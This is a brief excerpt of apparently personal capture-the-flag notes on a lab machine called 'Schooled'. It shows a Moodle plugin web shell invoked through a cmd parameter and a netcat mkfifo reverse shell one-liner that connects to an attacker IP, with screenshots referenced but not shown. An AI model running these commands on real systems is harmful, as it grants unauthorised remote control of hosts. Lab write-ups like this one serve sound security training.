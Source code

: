 ![Pasted image 20210511181349.png](../../zzz_res/attachments/Pasted_image_20210511181349.png)

[http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=whoami](http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=whoami)

![Pasted image 20210511181703.png](../../zzz_res/attachments/Pasted_image_20210511181703.png)

Executed a reverse shell BST type payload:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 10099 >/tmp/f
```

![Pasted image 20210511182423.png](../../zzz_res/attachments/Pasted_image_20210511182423.png)
